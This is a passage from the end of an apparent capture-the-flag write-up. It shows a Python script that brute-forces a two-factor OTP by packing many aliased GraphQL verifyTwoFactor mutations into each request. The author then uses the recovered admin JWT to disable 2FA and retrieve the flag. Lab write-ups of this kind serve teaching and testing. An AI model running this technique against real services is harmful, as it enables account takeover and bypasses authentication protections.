fields.append('a%s: verifyTwoFactor(token: "%s", otp: "%s") { token }' % (otp, token, otp))
query = "mutation { %s }" % " ".join(fields)
body = {"query": query}
try:
r = requests.post(url, json=body, headers=headers, timeout=60)
data = r.json()
except Exception as e:
print("[!] request error: %s" % e)
continue
if not data or "data" not in data:
print("[!] bad response: %s" % str(data)[:200])
continue
for key, val in data["data"].items():
if val is not None:
print("[+] OTP found: %s" % key[1:])
print("[+] Token: %s" % val.get("token"))
return
print("[*] tried %d - %d" % (base, min(base + batch, end)))
print("[-] no OTP found in range")
if __name__ == "__main__":
main()
Run the script to start the brute force attack: 

Now that we got the admin’s JWT token, I used it to disable the 2FA for the admin user, then logged in as admin in the browser again to find the flag. 

The flag was inside the Invoice History: 

Thanks for reading!